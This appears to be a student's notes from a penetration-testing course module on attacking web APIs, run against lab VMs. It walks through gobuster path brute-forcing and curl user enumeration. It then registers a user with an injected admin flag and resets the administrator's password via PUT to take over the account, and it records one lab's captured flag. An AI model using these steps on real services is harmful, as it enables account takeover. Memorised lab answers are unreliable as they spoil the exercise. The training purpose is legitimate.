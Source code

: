 # Enumerating and Abusing APIs

API Path Naming Convention
>``` shell
>/api_name/v1
>```

Gobuster pattern
>``` shell
>{GOBUSTER}/v1
>{GOBUSTER}/v2
>```

Bruteforcing API Paths
>``` shell
>kali@kali:~$ gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
>
># ========== Expected Result ==========
>===============================================================
>Gobuster v3.1.0
>by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
>===============================================================
>[+] Url:                     http://192.168.50.16:5001
>[+] Method:                  GET
>[+] Threads:                 10
>[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
>[+] Patterns:                pattern (1 entries)
>[+] Negative Status codes:   404
>[+] User Agent:              gobuster/3.1.0
>[+] Timeout:                 10s
>===============================================================
>2022/04/06 04:19:46 Starting gobuster in directory enumeration mode
>===============================================================
>/books/v1             (Status: 200) [Size: 235]
>/console              (Status: 200) [Size: 1985]
>/ui                   (Status: 308) [Size: 265] [--> http://192.168.50.16:5001/ui/]
>/users/v1             (Status: 200) [Size: 241]
># =====================================
>```

Obtaining Users' Information
>``` shell
>kali@kali:~$ curl -i http://192.168.50.16:5002/users/v1
>
># ========== Expected Result ==========
>HTTP/1.0 200 OK
>Content-Type: application/json
>Content-Length: 241
>Server: Werkzeug/1.0.1 Python/3.7.13
>Date: Wed, 06 Apr 2022 09:27:50 GMT
>
>{
>  "users": [
>    {
>      "email": "mail1@mail.com",
>      "username": "name1"
>    },
>    {
>      "email": "mail2@mail.com",
>      "username": "name2"
>    },
>    {
>      "email": "admin@mail.com",
>      "username": "admin"
>    }
>  ]
>}
># =====================================
>```

Discovering extra APIs
>``` shell
>kali@kali:~$ gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
>
># ========== Expected Result ==========
>===============================================================
>Gobuster v3.1.0
>by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
>===============================================================
>[+] Url:                     http://192.168.50.16:5001/users/v1/admin/
>[+] Method:                  GET
>[+] Threads:                 10
>[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
>[+] Negative Status codes:   404
>[+] User Agent:              gobuster/3.1.0
>[+] Timeout:                 10s
>===============================================================
>2022/04/06 06:40:12 Starting gobuster in directory enumeration mode
>===============================================================
>/email                (Status: 405) [Size: 142]
>/password             (Status: 405) [Size: 142]
>
>===============================================================
>2022/04/06 06:40:35 Finished
>===============================================================
># =====================================
>```

Discovering API unsupported methods
>``` shell
>kali@kali:~$ curl -i http://192.168.50.16:5002/users/v1/admin/password
>
># ========== Expected Result ==========
>HTTP/1.0 405 METHOD NOT ALLOWED
>Content-Type: application/problem+json
>Content-Length: 142
>Server: Werkzeug/1.0.1 Python/3.7.13
>Date: Wed, 06 Apr 2022 10:58:51 GMT
>
>{
>  "detail": "The method is not allowed for the requested URL.",
>  "status": 405,
>  "title": "Method Not Allowed",
>  "type": "about:blank"
>}
># =====================================
>```

Inspecting the 'login' API
>``` shell
>kali@kali:~$ curl -i http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>HTTP/1.0 404 NOT FOUND
>Content-Type: application/json
>Content-Length: 48
>Server: Werkzeug/1.0.1 Python/3.7.13
>Date: Wed, 06 Apr 2022 12:04:30 GMT
>
>{ "status": "fail", "message": "User not found"}
># =====================================
>```

Crafting a POST request against the login API
>``` shell
>kali@kali:~$ curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>{ "status": "fail", "message": "Password is not correct for the given username."}
># =====================================
>```

Attempting new User Registration
>``` shell
>kali@kali:~$ curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
>
># ========== Expected Result ==========
>{ "status": "fail", "message": "'email' is a required property"}
># =====================================
>```

Attempting to register a new user as admin
>``` shell
>kali@kali:~$ curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
>
># ========== Expected Result ==========
>{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}
># =====================================
>```

Logging in as an admin user
>``` shell
>kali@kali:~$ curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}
># =====================================
>```

Attempting to Change the Administrator Password via a POST request
>``` shell
>kali@kali:~$ curl  \
>  'http://192.168.50.16:5002/users/v1/admin/password' \
>  -H 'Content-Type: application/json' \
>  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
>  -d '{"password": "pwned"}'
>
># ========== Expected Result ==========
>{
>  "detail": "The method is not allowed for the requested URL.",
>  "status": 405,
>  "title": "Method Not Allowed",
>  "type": "about:blank"
>}
># =====================================
>```

Attempting to Change the Administrator Password via a PUT request
>``` shell
>kali@kali:~$ curl -X 'PUT' \
>  'http://192.168.50.16:5002/users/v1/admin/password' \
>  -H 'Content-Type: application/json' \
>  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
>  -d '{"password": "pwned"}'
>```

Successfully logging in as the admin account
>``` shell
>kali@kali:~$ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
>
># ========== Expected Result ==========
>{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzIxMjgsImlhdCI6MTY0OTI3MTgyOCwic3ViIjoiYWRtaW4ifQ.yNgxeIUH0XLElK95TCU88lQSLP6lCl7usZYoZDlUlo0", "message": "Successfully logged in.", "status": "success"}
># =====================================
>```

Lab 1 - Start up the Walkthrough VM 1 and modify the Kali /etc/hosts file to reflect the provided dynamically-allocated IP address that has been assigned to the offsecwp instance. Use Firefox to get familiar with the Developer Debugging Tools by navigating to the offsecwp site and replicate the steps shown in this Learning Unit. Explore the entire WordPress website and inspect its HTML source code in order to find the flag.
>``` shell
># Map Hostname to IP
>kali@kali:~$ sudo nano /etc/hosts
>
># Add this line at the bottom:
>192.168.179.16 offsecwp
>
># Save and exit:
>Ctrl + X
>
># Navigate to http://offsecwp/?p=1
>
># Right-click anywhere on the page, click Inspect, and enter "OS{" in the search bar
>```
>OS{c220cc334635a533cae9c236c2e31aa0}

Lab 2 - Start Walkthrough VM 2 and replicate the curl command we learned in this section in order to map and exploit the vulnerable APIs. Next, perform a brute force attack to discover another API that has a same pattern as /users/v1. Then, perform a query against the base path of the new API: what's the name of the item belonging to the admin user? NOTE: A dirbuster wordlist should help on this task.
>``` shell
>
>```
>

Lab 3 - 
>``` shell
>
>```
>

Lab 4 - 
>``` shell
>
>```
>

Lab 5 - 
>``` shell
>
>```
>

Lab 6 - 
>``` shell
>
>```
>

